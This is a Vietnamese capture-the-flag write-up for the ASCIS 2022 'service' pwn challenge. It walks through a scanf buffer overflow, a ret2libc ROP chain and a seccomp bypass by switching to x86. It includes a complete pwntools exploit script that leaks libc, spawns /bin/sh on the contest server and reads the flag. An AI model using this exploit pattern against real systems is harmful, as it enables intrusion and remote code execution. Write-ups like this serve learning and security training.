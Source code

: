 # service

Đây là một bài cực kì dễ trong kì thi lần này, dễ hơn cả đề của vòng khởi động =))), không biết là do chủ đích của tác giả hay do một lí do nào đó khiến cho đề thọt (cá nhân mình nghĩ là lí do này).

Bài này chỉ là một bài buffer overflow cơ bản với `scanf("%s")` trên một binary không PIE và không canary => simple ROP attack.

## Checksec

![image](https://user-images.githubusercontent.com/57558487/196594037-1675bdee-be27-4df7-acbb-c3e908634ab9.png)

## Reverse

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char v4[32]; // [rsp+10h] [rbp-30h] BYREF
  int v5; // [rsp+30h] [rbp-10h] BYREF
  unsigned int buf; // [rsp+34h] [rbp-Ch] BYREF
  int fd; // [rsp+38h] [rbp-8h]
  int v8; // [rsp+3Ch] [rbp-4h]

  buf = 0;
  v8 = 0;
  v5 = 0;
  setupbuf(argc, argv, envp);
  fd = open("/dev/urandom", 0);
  if ( fd == -1 )
  {
    puts("Opening /dev/urandom failed, contact admin.");
    result = 0;
  }
  else
  {
    if ( check )
      setup_seccomp();
    read(fd, &buf, 4uLL);
    srand(buf);
    v8 = rand();
    puts("*-*-*-*-*-* Welcome to ASCIS 2022 *-*-*-*-*-*-*\n");
    printf("What is your name?\n\n> ");
    __isoc99_scanf("%s", v4);
    printf("Can you guess my secret?\n\n> ");
    __isoc99_scanf("%d", &v5);
    if ( v8 != v5 )
      exit(0);
    win();
    result = 0;
  }
  return result;
}
```

Nhìn qua đề, ta có thể thấy ban đầu đề gọi `open("/dev/urandom", 0)`, sau đó 4 byte random vào `buf`, sau đó yêu cầu ta đoán nó, tuy nhiên vì hàm `__isoc99_scanf("%s", v4)` có lỗi buffer overflow, ta chỉ cần đơn giản đè qua biến `buf` và sau đó nhập giá trị `v5` với giá trị ta vừa đè là bypass được hàm `exit(0)`

Tiếp theo đó vì binary không bật cả PIE lẫn canary, ta có thể dễ dàng đè qua return address và tiến hành ROP attack. đầu ta dùng `puts(puts.got)` để in ra địa chỉ của libc, sau đó gọi trở lại hàm `main`, tiến hành tấn công một lần nữa đề gọi `system("/bin/sh")`

Quá dễ phải không, tuy nhiên đó là do mình chưa đề cập đến hàm `setup_seccomp()` ở phía trên, hàm này được dùng để quy định các `syscall` được gọi hay không. Tuy nhiên hàm này chỉ dược kích hoạt khi giá trị biến `check` khác 0.

Trong binary mà ban tổ chức đưa cho mình, giá trị `check` = 0, mình kiểm tra các giá trị tham chiếu đến biến `check` cũng không có gì đặc biệt. Vì thế trên local hàm `setup_seccomp()` không được gọi, và ở server cũng vậy :)))

![image](https://user-images.githubusercontent.com/57558487/196594922-fef96481-a502-4615-b46c-52a61d39e2b8.png)

Mình nghĩ đây là lỗi kĩ thuật, vì khi mình xem qua filter syscall trong hàm, mình nhận ra ý đồ khá rõ ràng của tác giả, bạn có thể xem seccomp dump phía dưới

![image](https://user-images.githubusercontent.com/57558487/196595147-6dea33e1-563b-4485-90fa-8cba3a8c5d52.png)

Tác giả chỉ allow một số syscall nhất định, trong đó không có `execve` và `open`, khiến cho ta không thể chạy shell hoặc gọi chain `open` -> `read` -> `write`, tuy nhiên filter ở đây bị thọt là không check arch, ta có thể switch sang x86 để bypass các filter, lúc này syscall `fstat` ở x86_64 sẽ trở thành syscall `open` ở x86 :))

![image](https://user-images.githubusercontent.com/57558487/196595679-04e47577-e67b-4e5d-ac5f-9072fbd47da5.png)

Tác giả cũng đã cung cấp đường dẫn file `flag` trong hàm `win`, nên mình khác chắc đây là một bài bypass seccomp và gọi `open` -> `read` -> `write`, tuy nhiên vì đề thọt trong khi thi nên nó trở thành một bài newbiew :))).

Trong cuộc thi thì mình làm theo cách cơ bản, nhưng nếu bài không bị lỗi thì mình nghĩ cũng sẽ không quá khó, sau khi leak được libc address, ta có thể build một ROPchain đầy đủ. Có thể dùng `retf` và `int0x80` để gọi các syscall ở x86.

Đây là exploit code mình dùng để giải.

```python
#
#	***************************
#	* Pwning exploit template *
#	* Arthor: Cobra           *
#	***************************
#

from pwn import *
import sys

local = 0
debug = 0

# context.arch = 'amd64'
# context.aslr = False
# context.log_level = 'debug'
# context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# context.timeout = 2

def conn():
	global local
	global debug

	for arg in sys.argv[1:]:
		if arg in ('-h', '--help'):
			print('Usage: python ' + sys.argv[0] + ' <option> ...')
			print('Option:')
			print('        -h, --help:     Show help')
			print('        -l, --local:    Running on local')
			print('        -d, --debug:    Use gdb auto attach')
			exit(0)
		if arg in ('-l', '--local'):
			local = 1
		if arg in ('-d', '--debug'):
			debug = 1

	if local:
		s = process('./chall_patched')
		if debug:
			gdb.attach(s, gdbscript='''
				b*0x00000000004014bb
			''' + 'c\n' * 1)
		else:
			raw_input('DEBUG')
	else:
		s = remote('34.143.130.87', 4097)

	return s

s = conn()

elf = ELF('chall')
libc = ELF('libc-2.31.so')

rop = ROP(elf)

pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
ret = rop.find_gadget(['ret']).address

payload = p64(0) * 6
payload += p64(0) + p64(ret)
payload += p64(pop_rdi) + p64(elf.got['puts'])
payload += p64(elf.symbols['puts']) + p64(ret)
payload += p64(elf.symbols['main'])

s.sendlineafter(b'> ', payload)
s.sendlineafter(b'> ', b'0')

s.recvuntil(b'cat /home/ctf/flag.txt\n')

libc.address = int.from_bytes(s.recv(6), byteorder = 'little', signed = False) - libc.symbols['puts']
log.info('Libc base: 0x%x', libc.address)

payload = p64(0) * 6
payload += p64(0) + p64(ret)
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
payload += p64(libc.symbols['system'])

s.sendlineafter(b'> ', payload)
s.sendlineafter(b'> ', b'0')

s.sendline(b'cat /home/ctf/flag.txt')

s.interactive()
```

Flag: ASCIS{syscall_g00d_int_0x80_b3st}

